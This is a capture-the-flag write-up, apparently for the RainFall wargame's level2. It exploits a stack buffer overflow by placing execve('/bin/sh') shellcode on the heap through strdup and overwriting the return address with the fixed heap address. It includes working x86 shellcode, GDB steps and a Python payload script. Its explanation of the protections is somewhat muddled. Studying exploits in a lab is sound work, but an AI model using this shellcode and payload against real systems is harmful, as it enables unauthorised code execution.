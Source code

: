 LEVEL_2:
# 📚 Exploiting `level2` – Exploit the overflow to get a shell.
since stack has execution protection this is a heap overflow, we execute shellcode from the heap using strdup().

Exploit Strategy:</br>

Inject shellcode into local_50 buffer:
  - strdup(local_50) copies this shellcode to heap at a predictable address (found via GDB).
  - Overflow RET to point to the heap address returned by strdup().
  - When p() returns → EIP = heap → shellcode executes → /bin/sh spawns.

Why This Works?</br>

NX disabled → heap is executable(Check only blocks stack addresses, not heap).</br>
ASLR (Address Space Layout Randomization) is disabled.
```sh
level2@RainFall:~$ cat /proc/sys/kernel/randomize_va_space
0
```
ASLR off → heap address is stable (e.g., 0x0804a008).
strdup() gives us a writable+executable space for shellcode.

Find heap address after strdup() using GDB:
```
(gdb) b p
(gdb) r
(gdb) disass p
...
0x08048535 <+97>:	mov    %eax,(%esp)
0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
0x0804853d <+105>:	leave  
0x0804853e <+106>:	ret  
(gdb) break *0x0804853d
(gdb) run < <(python exploit.py)
(gdb) info registers
```
Craft payload:

Shellcode: 25-byte Linux x86 execve("/bin/sh").
```sh
shellcode = (
    "\x31\xc0"          # xor eax,eax        ; clear eax
    "\x50"              # push eax           ; push NULL
    "\x68\x2f\x2f\x73\x68" # push "//sh"
    "\x68\x2f\x62\x69\x6e" # push "/bin"
    "\x89\xe3"          # mov ebx,esp        ; ebx -> "/bin//sh"
    "\x50"              # push eax           ; push NULL (argv terminator)
    "\x53"              # push ebx           ; push pointer to "/bin//sh"
    "\x89\xe1"          # mov ecx,esp        ; ecx -> argv[]
    "\x99"              # cdq                ; edx = 0
    "\xb0\x0b"          # mov al,0xb         ; syscall number for execve
    "\xcd\x80"          # int 0x80           ; syscall
)

[ shellcode ....... ]   (goes into heap by strdup)
[ padding AAAAA... ]    (76 bytes, fills stack buffer)
[ BBBB             ]    (overwrites saved EBP)
[ 0x0804a008       ]    (overwrites RET with heap addr)
```
Padding to 76 bytes.</br>
Overwrite EBP (4 bytes).</br>
Overwrite RET with heap address.
```
from struct import pack
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    "\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    "\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
)
heap_addr = 0x0804a008
payload  = shellcode
payload += "A" * (76 - len(shellcode))
payload += "B" * 4
payload += pack("<I", heap_addr)
print(payload)
```

> (python exploit.py; cat) | ./level2
